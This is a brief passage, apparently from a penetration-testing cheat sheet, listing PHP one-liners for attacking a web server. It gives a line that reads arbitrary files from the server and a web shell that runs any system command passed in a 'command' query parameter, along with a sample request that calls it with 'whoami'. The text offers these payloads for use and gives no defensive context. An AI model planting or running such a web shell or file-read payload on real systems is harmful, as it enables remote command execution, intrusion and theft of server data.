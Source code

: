 ## PHP One-liners

Read arbitrary files from the server's filesystem:

`<?php echo file_get_contents('/path/to/target/file'); ?>`

Pass an arbitrary system command via a query parameter:

`<?php echo system($_GET['command']); ?>`
`GET /path-to-file/exploit.php?command=whoami HTTP/1.1`



